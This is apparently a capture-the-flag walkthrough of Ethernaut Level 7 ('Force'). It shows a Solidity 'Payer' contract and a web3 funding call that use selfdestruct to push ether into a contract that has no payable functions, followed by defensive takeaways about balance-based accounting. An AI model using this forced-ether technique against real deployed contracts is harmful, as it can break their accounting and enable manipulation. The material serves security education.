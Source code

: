 # Level 7 : Force

### Never use contract balance as an accounting or auth check even if there is no selfdestruct() function

This levels requires you to send ethers to an empty contract.

**`selfdestruct()` is big red button that lets you abandon your smart contract and move all remaining Ethers to another address**

- **Never trust your own accounting:** Even as an owner of the contract, you do not control your contract’s balance. **Never use contract balance as an accounting or auth check.**
- Even if you didn’t implement a selfdestruct(), it is still possible through any [delegatecall](https://medium.com/coinmonks/ethernaut-lvl-6-walkthrough-how-to-abuse-the-delicate-delegatecall-466b26c429e4)() vulnerabilities.
- If you implement a `selfdestruct`, i) authenticate that the `msg.sender = owner` and ii) **emit an event** for external dependencies on this contract and for future reference.

**For this level , simple `transfer` or `send` won't work because the `Force` implements neither `receive` nor `fallaback` functions. Calls with any value will revert.**

However, the checks can be bypassed by using `selfdestruct` of an intermediate contract - `Payer` which would specify `Force`'s address as beneficiary of it's funds after it's self-destruction.

1. First step is to go on remix.ide, create a contract
2. Implement a `payable()` function like receive() or fallback() allowing this contract to receive Ether so it can have a balance to send to the target Ethernaut Contract.
3. Implement a selfdestruct function that will send ethers of the contract to the Ethernaut Meow Contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Payer {
    uint public balance = 0;

    function destruct(address payable _to) external payable {
        selfdestruct(_to);
    }

    receive() external payable {
        balance += msg.value;
    }
}
```

**Send ether to the contract using remix.ide or javascript console  :**  

```
web3.eth.sendTransaction({
    from: "// Your Address",
    to: "// Contract Address just created",
    value: 10000000000000
})

```

Then on remix.ide click on the `destruct()` button and check the balance of the Ethernaut contract with `getBalance(contract.address)`

# **Key Security Takeaways**

- **Never trust your own accounting:** Even as an owner of the contract, you do not control your contract’s balance. Never use contract balance as an accounting or auth check.
- Even if you didn’t implement a selfdestruct(), it is still possible through any [delegatecall](https://medium.com/coinmonks/ethernaut-lvl-6-walkthrough-how-to-abuse-the-delicate-delegatecall-466b26c429e4)() vulnerabilities.
- If you implement a `selfdestruct`, i) authenticate that the `msg.sender = owner` and ii) **emit an event** for external dependencies on this contract and for future reference.